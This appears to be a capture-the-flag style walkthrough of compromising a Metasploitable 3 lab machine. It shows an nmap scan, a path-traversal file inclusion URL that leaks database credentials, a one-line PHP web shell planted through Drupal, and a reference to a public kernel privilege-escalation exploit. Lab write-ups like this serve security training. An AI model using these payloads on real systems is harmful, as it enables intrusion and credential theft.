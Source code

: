 ## Introduction

Once logged-in in our Kali box, kindly offered by rapid7, we need to study carefully our victim machine. To do so, we can unleash nmap's power

```
ec2-user@kali:~$ nmap -sT -sV -p 1-65535 10.0.101.252

Starting Nmap 7.60 ( https://nmap.org ) at 2017-12-06 08:36 UTC
Nmap scan report for 10.0.101.252
Host is up (0.00071s latency).
Not shown: 992 filtered ports
PORT     STATE  SERVICE     VERSION
21/tcp   open   ftp         ProFTPD 1.3.5
22/tcp   open   ssh         OpenSSH 6.6.1p1 Ubuntu 2ubuntu2 (Ubuntu Linux; protocol 2.0)
80/tcp   open   http        Apache httpd 2.4.7
445/tcp  open   netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
631/tcp  open   ipp         CUPS 1.7
3000/tcp closed ppp
3306/tcp open   mysql       MySQL (unauthorized)
3500/tcp open  http    WEBrick httpd 1.3.1 (Ruby 2.3.5 (2017-09-14))
8181/tcp closed intermapper
Service Info: Hosts: 10.0.101.252, IP-10-0-101-252; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.60 seconds
```

Looks like we have a bunch of services here! Searching for some known vulns on ProFTPD 1.3.5 is inviting, but 
we want to investigate deeper on the port 80. 
What we have here is an Apache http server.Luckily directory listing is enabled, so we can analyze all the application available 
without bruteforcing folders and files. 

![Screen_Shot_2017-12-06_at_09.49.13](./img/img1.png)

Enumerating, enumerating, enumerating and we finally spot our "turning point" vulnerability:
on the WEBrick httpd running on port 3500 ,a Local File Inclusion affects the parameter "os" inside the "readme" page. 
While we have a phpmyadmin instance on port 80, it worth trying to include some other app pages, 
hoping to retrieve some credentials. Fortunately the payroll_app.php makes it possible.

http://10.0.28.14:3500/readme?os=../../../../../var/www/html/payroll_app.php

![Screen_Shot_2017-12-05_at_15.56.35](./img/img3.png))

We can now log-in with root:sploitme on phpmyadmin:

![Screen_Shot_2017-12-06_at_09.54.49](./img/img4.png)

In the table "users" from the drupal schema, we have the "metasploitable" user. 
Following the guide at https://www.drupal.org/node/1023428, we can generate a valid drupal hash and replace it with the old ones, 
obtaining access to the front-end.

![Screen_Shot_2017-12-06_at_10.20.23](./img/img5.png)

The PHP Filter module from drupal enable the evaluation ot the PHP code inside pages, so we can enable it and add a page with the following php code

```php
<?php passthru($_GET['cmd']); ?>
```

![Screen_Shot_2017-12-06_at_10.25.16](./img/img6.png)

Let's user the webshell to obtain a reverse shell, it should make our life easier.

![Screen_Shot_2017-12-06_at_10.25.45](./img/img7.png)

We can now start the post-exploitation phase on the victim machine, aiming to obtain root privileges.
The kernel version of the box is vulnerable to the CVE-2015-1328 and a related exploit is available on exploit-db 
(https://www.exploit-db.com/exploits/37292/).
We can download the source, compile it directly on the machine while we have gcc installed and execute it. 

BOOM! We are root

![Screen_Shot_2017-12-06_at_10.58.39](./img/img8.png)

As root we can tweak the ssh config file to allow remote root, moreover we can change the password obtaining a SSH session with root privileges.

Ladies and gentlemen, let the hunt begin!
